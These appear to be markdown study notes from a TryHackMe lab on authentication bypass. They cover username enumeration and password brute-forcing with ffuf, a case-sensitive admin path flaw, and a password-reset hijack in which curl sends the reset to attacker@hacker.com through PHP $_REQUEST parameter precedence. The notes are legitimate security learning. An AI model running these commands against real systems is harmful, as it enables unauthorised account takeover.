 Common flaws in authentication mechanism that allow bypassing.

# 1. Username enumeration
Very helpful practice when trying to find auth vulns is creating a list of valid usernames, which we'll use later in other tasks.
This is usually done through website error messages. For example: `An account with this username already exists` 
The ffuf tool uses a list of commonly used usernames to check against for any matches.
```shell-session
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.56.253/customers/signup -mr "username already exists" > usernames.txt
```
`-X` - specify the HTTP method
`-d` - specify the data that will be sent.
`-H` - specify the content type header as form data.
`-u` - specify the URL.
`-mr` - specify the regex expression for successful enum.

## 2. Brute Force
With the valid usernames already listed, we can attempt to brute force the login page. This is an automated process that tries a list of commonly used passwords against one or a list of usernames.

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.80.116/customers/login -fc 200
```
`-fc` - Ignores 200 codes, for when successful login returns 302 codes for example.

## 3. Logic Flaws in Authentication
A **logic flaw** happens when an application’s **intended logical flow** can be **bypassed, circumvented, or abused**.
It often results from **bad assumptions** or **improper sequencing** in code - **Design Errors**

#### Logic Flaw Example (Case-sensitive Path Check)
```php
if( url.substr(0,6) === '/admin') {
    # Code to check user is an admin
} else {
    # View Page
}
```
- This code **only checks for lowercase `/admin`**.
    
- A user can access **`/adMin` or `/Admin`** and **bypass the check**, due to case-sensitivity and flawed logic.
#### Password Reset Flaw Overview

- The app first asks for an **email**, If valid, it proceeds to ask for the **username**.
- The reset confirmation is sent to the **email entered in the first step** (or so it seems).
###### The Vulnerability:
- **PHP `$_REQUEST`** merges data from both `$_GET`, `$_POST`, and `$_COOKIE`.
- If **`email` is passed both in GET and POST**, PHP gives **priority to POST** data.
###### Exploitation Steps

- Step 1: Use a legitimate email in the **GET** parameter:  
    `?email=robert@acmeitsupport.thm`
    
- Step 2: Override the email using **POST data**:  
    `-d 'username=robert&email=attacker@hacker.com'`
    
- Outcome: Password reset email is sent to the **attacker's email** instead of the real user's.
##### Curl Commands Used
- **Normal Request:**
```` bash
curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert' 
````
   
- **Exploit Request (Overriding Email):**
```` bash
curl 'http://10.10.184.213/customers/reset?email=robert@acmeitsupport.thm' \ -H 'Content-Type: application/x-www-form-urlencoded' \ -d 'username=robert&email=attacker@hacker.com'   
````

---

### 📌 **Real-World Lessons**

- **Email-based password reset logic** can be tricked if the server uses `$_REQUEST` improperly.
    
- Always check for:
    - **Redundant parameters** (GET + POST with same name).
    - **Improper trust in user-controlled inputs** (e.g., trusting `$_REQUEST` without validation).
    
- **Logic flaws** don’t rely on technical exploits like buffer overflows but on **bad design**.